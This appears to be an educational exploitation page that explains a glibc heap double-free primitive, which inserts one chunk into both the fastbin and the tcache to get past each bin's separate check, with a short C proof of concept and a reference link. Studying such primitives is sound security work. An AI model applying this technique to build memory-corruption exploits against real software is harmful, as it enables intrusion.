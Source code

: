<details>
<summary><strong>Description</strong></summary>
<p>

both the fastbin and the tcache have checks in place in order to detect double frees...

the thing is, the double free checks are for chunks of those particular bin types. So the tcache double free check will only be able to detect another tcache freed chunk, since it checks for the tcache key...

the fastbin double free check, is that the new chunk to be inserted is not the same as the old fastbin head...

as such, the fastbin double free check cannot detect that a chunk has been inserted into the tcache and vice versa. This is what we are going to leverage...

so basically we are going to insert a chunk into the fastbin, then into the tcache. This will enable us to free the same chunk twice...

> there is another version of this primitive with tcache-unsortebin, you can see it in `house of botcake`...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk[8];

    for(int i = 0; i < 8; i++) chunk[i] = malloc(0x78); // request size must be in fastbin range in order to work

    for(int i = 0; i < 7; i++) free(chunk[i]); // fill the 0x80 tcache
    free(chunk[7]); // chunk[7] goes to fastbin

    malloc(0x78); // allocate a chunk from the 0x80 tcache to make space for the duplicate chunk

    // VULNERABILITY
    free(chunk[7]); // chunk[7] goes to 0x80 tcache
    // VULNERABILITY

    printf("now that we've inserted the same chunk[7] into both the fastbin and tcache\n");
    printf("now by inserting it into the tcache too, we've changed the next ptr of the fastbin!!!\n");
    printf("depending on what happens, this can cause problems!!!\n");
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/tcache/tcache_fastbin_double/readme.md

</p>
</details>